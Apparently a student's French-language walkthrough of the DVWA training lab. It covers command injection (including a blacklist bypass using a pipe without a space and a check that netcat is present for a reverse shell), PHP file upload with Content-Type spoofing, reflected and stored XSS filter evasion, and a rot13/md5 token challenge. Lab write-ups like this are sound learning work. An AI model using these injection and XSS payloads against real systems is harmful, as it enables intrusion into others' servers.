 # NTS

## Command Injection

### Low

ca semble juste être l'output d'une command ping qui run car
`127.0.0.1` renvoie:
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.025 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2997ms
rtt min/avg/max/mdev = 0.012/0.021/0.025/0.006 ms
```
`127.0.0.1 && whoami`
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.025 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2997ms
rtt min/avg/max/mdev = 0.012/0.021/0.025/0.006 ms
www-data
```
bingo on peut d'ailleur faire un reverse shell car netcat est installé:
`127.0.0.1 && command -v "nc" &>/dev/null;`
renvoie:
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.011 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.025 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.029 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2997ms
rtt min/avg/max/mdev = 0.011/0.022/0.029/0.009 ms
/bin/nc
```

### Medium

le `&&` ne marche plus mais en cherchant un peu je me rend compte que `||` fonctionn si l'on fait ratter le ping donc
`|| whoami` renvoie:
```
www-data
```


### High

```php

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?>
```
sur le code on se rend compte qu'ils ont mis un espace après le | `'| '` donc on a juste à utiliser le | sans espace:

`127.0.0.1 |whoami` renvoie:
```
www-data
```

## File Upload

### Low

upload fichier.php
>> path:
```
http://10.10.120.28/hackable/uploads/file.php
```

### Medium

burp >> Content-Type: image/png

## Reflected XSS

### Low

il prend les balises html en compte 
```
<script>alert("ananas")</script>
```
### Medium

minuscule marche pas => mettre la balise en majuscule
```
<SCRIPT>alert("ananas")</SCRIPT>
```

## JavaScript

### Low

Le flag est chiffré en rot13 puis en md5:
```js
    function generate_token() {
        var phrase = document.getElementById("phrase").value;
        document.getElementById("token").value = md5(rot13(phrase));
    }
```
donc on a juste à mettre ce token: `38581812b435834ebf84ebcc2c6424d6`("success" -> rot13-> md5)  et la phrase `success`


## Stored XSS


### Low

balises prisent en compte (mais pas utile pour le Name car nombre char limités)

### Medium

bien bloqué j'ai du lire les docs: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
```
SVG Object Tag¶
<svg/onload=alert('XSS')>
```
dans le name ya pas la place  ```<svg/onloa```
et dans le body ca fait rien cependant on voit qu'il a tenté de load l'image dans le head => tester sur burp (je l'ai pas sur ma machine on verras à epita)

### High
